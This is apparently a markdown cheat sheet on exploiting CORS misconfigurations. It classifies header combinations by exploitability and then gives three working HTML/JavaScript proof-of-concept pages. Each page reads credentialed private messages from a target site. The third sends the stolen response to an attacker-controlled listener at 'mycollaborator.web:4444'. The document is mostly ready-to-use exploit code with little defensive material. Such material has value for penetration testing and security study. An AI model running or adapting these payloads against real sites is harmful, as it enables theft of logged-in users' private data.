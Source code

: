 Very useful scheme from @emgeekboy:

**POORLY IMPLEMENTED, BEST CASE FOR ATTACK:**
```
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```

**POORLY IMPLEMENTED, EXPLOITABLE:**
```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**BAD IMPLEMENTATION BUT NOT EXPLOITABLE:**
```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
or just
Access-Control-Allow-Origin: *
```

**EXPLOIT #1**
Simple alert popup.

```
<html>
<script>
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "https://vulnerable.web/private-messages", true);
xhttp.withCredentials = true;
xhttp.onload = function () {
alert(this.responseText);
};
xhttp.send();
</script>
</html>
```

**EXPLOIT n2**
CSRF Button and alert popup.

```
<!DOCTYPE html>
<html>
<head>
<script>
function cors() {
var xhttp = new XMLHttpRequest();

xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById("demo").innerHTML = alert(this.responseText);
}
};
xhttp.open("GET", "https://vulnerable.web/private-messages", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script></head>
<center>
<h2>CORS POC#2 EXPLOIT CSRF</h2>
<h3>Extract Authenticate Data</h3><div id="demo">
<button type="button" onclick="cors()">Exploit</button></div></body></html>
```

**EXPLOIT n3**
CSRF Button and a simple server to listen.

```
<!DOCTYPE html>
<html>
<head>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
//document.getElementById("demo").innerHTML = alert(this.responseText);
var nano = new XMLHttpRequest();
nano.open("GET", "http://mycollaborator.web:4444/?c=" + this.responseText, true);
nano.withCredentials = true;
nano.send();
}
};
xhttp.open("GET", "https://vulnerable.web/private-messages", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script></head>
<center>
<h2>CORS POC#3 Exploit EXFILTRATION</h2>
<h3>Extract Authenticate Data</h3><div id="demo">
<button type="button" onclick="cors()">Exploit</button></div></body></html>
```
